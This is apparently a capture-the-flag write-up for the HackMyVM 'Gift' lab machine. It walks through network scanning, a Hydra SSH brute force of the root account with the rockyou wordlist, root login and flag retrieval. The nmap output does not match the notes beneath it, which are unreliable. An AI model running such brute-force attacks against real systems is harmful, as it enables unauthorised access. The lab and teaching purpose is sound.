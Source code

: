 ```yaml
---
title: "Gift"
date: 2024-02-21 00:00:00 +0530
categories: [Write Up, hackmyvm] 
tags: [brute force, hydra, Beginner]
---
```


<strong>We will explore brute forcing a target with hydra.<strong>

![Alt Text](/img/gift/vm.png)
<a href="https://hackmyvm.eu/machines/machine.php?vm=Gift" target="_blank" rel="noopener noreferrer">vm link</a>




##### >> Make a new directory for machine & change to that directory
```shell
┌──(kali㉿kali)-[~]
└─$ cd Desktop/gift
                                                                             
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ 
```



#### >> Find our own IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip a            
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:21:b1:d0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.136/24 brd 192.168.0.255 scope global dynamic noprefixroute eth0
       valid_lft 6912sec preferred_lft 6912sec
    inet6 fe80::f913:6113:d2c9:4db2/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

#### >> Let's find the IP address of our target on our virtual network, we can do this with fping
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ fping -ag 192.168.0.136/24 2> /dev/null
192.168.0.1
192.168.0.115
192.168.0.136
192.168.0.142
192.168.0.147
192.168.0.161
```

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip=192.168.0.161
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ sudo nmap -sC -sV -T4 -A -O -p- $ip
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:49 EST
Nmap scan report for 192.168.0.142
Host is up (0.00064s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Quick Automative
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.64 ms 192.168.0.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
```
- Linux: Not yet known which distribution.
- Port 22: SSH (OpenSSH 8.3).
- Port 80: HTTP (nginx).
- Title: The site doesn't have a title (text/html).

#### >> Enumerate the service using WhatWeb

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ whatweb $ip                             
http://192.168.0.161 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx], IP[192.168.0.161], nginx
```

#### >> Let’s open the website in the browser
```
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ firefox $ip &                          
[1] 31479
```
![Alt Text](/img/gift/image1.png)

#### >> Let’s Nikto with target IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ nikto -h $ip          
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.0.161
+ Target Hostname:    192.168.0.161
+ Target Port:        80
+ Start Time:         2024-02-08 16:40:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2024-02-08 16:41:11 (GMT-5) (21 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- Nikto discovered something—an #wp-config.php file containing potential credentials. Let's investigate further.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ curl http://$ip/#wp-config.php#

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

#### >> With port 22 open, there is a possibility to attempt brute-forcing the root account using Hydra
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ hydra -l root -P ~/Desktop/wl/rockyou.txt $ip ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-08 16:49:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://192.168.0.161:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344244 to do in 1532:31h, 14 active
[22][ssh] host: 192.168.0.161   login: root   password: simple
[STATUS] 4781466.00 tries/min, 14344398 tries in 00:03h, 2 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-08 16:52:41
```
- -l   : login name
- -P : file path to wordlist

<br>
## Initial Access
<br>

#### >> Let’s login as root via ssh
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
The authenticity of host '192.168.0.161 (192.168.0.161)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.161' (ED25519) to the list of known hosts.
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# 
```
- Now that the connection is established, let's gather information about our identity, roles, and the system we are interacting with.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# whoami;id;host;ip a; pwd
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
-ash: host: not found
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 08:00:27:26:f2:0d brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.161/24 brd 192.168.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe26:f20d/64 scope link 
       valid_lft forever preferred_lft forever
/root
gift:~# 
```
#### >> Flags
```shell
gift:~# ls -l
total 8
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
gift:~# cat root.txt
####flag####
gift:~# cat user.txt
####flag####
gift:~# 
```
<br>
<center>pwned</center>